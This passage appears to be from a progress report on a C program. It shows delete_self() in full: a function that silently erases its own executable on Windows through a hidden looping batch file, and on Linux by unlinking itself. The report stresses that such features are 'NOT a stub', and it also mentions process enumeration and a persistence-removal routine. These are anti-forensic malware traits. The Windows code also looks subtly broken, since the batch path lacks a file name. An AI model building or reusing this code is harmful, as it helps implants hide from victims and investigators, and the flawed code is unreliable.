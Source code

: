 ```c
}
```

**NOT a stub - actually enumerates all processes!**

---

### 4. `delete_self()` - REAL (35+ lines)
**Location:** `utils.c` (newly added)

**Code:**
```c
void delete_self(void) {
#ifdef PLATFORM_WINDOWS
    char path[MAX_PATH];
    char batch[MAX_PATH * 2];
    
    GetModuleFileNameA(NULL, path, sizeof(path));
    GetTempPathA(sizeof(batch), batch);
    
    // Create batch file to delete self
    FILE* fp = fopen(batch, "w");
    if (fp) {
        fprintf(fp, "@echo off\n");
        fprintf(fp, ":loop\n");
        fprintf(fp, "del /f /q \"%s\" 2>nul\n", path);
        fprintf(fp, "if exist \"%s\" (\n", path);
        fprintf(fp, "    timeout /t 1 /nobreak >nul\n");
        fprintf(fp, "    goto loop\n");
        fprintf(fp, ")\n");
        fprintf(fp, "del /f /q \"%%~f0\"\n");
        fclose(fp);
        
        ShellExecuteA(NULL, "open", batch, NULL, NULL, SW_HIDE);
        ExitProcess(0);
    }
#else
    char path[512];
    ssize_t len = readlink("/proc/self/exe", path, sizeof(path) - 1);
    if (len > 0) {
        path[len] = '\0';
        unlink(path);
    }
    _exit(0);
#endif
}
```

**NOT a stub - actually deletes the executable!**

---

### 5. `remove_persistence()` - REAL (30+ lines)
**Location:** `utils.c` (newly added)
